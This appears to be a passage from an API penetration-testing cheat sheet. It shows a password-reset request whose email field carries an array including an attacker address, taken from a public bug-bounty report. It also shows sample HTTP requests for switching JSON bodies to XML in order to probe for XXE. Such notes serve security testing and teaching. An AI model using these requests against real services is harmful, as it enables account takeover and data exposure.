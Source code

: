 API
===

## Password reset
```
From: https://hackerone.com/reports/322985
The attacker was able to send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address.

POST https://hq.breadcrumb.com/api/v1/password_reset HTTP/1.1
with body like {"email_address":["admin@breadcrumb.com","attacker@evil.com"]}
```

## JSON to XML to XXE
When the API accept JSON type format payload, then you can try to send the same payload but as a XML file. You can download the Burp extension named "Content Type Converter".
> This extension helps you to modify the JSON request to XML, XML request to JSON and normal form request to JSON in order to play with request and responses.
> https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html

```
PUT /api/search HTTP/1.1
Host: test.com
...
Content-Type: application/json;charset=UTF-8

{
	"message": "xxx"
}
```

```
PUT /api/message HTTP/1.1
Host: test.com
...
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<message>xxx</message>
```

If the request is accepted by the API, then you can try to attack with an XXE payload.
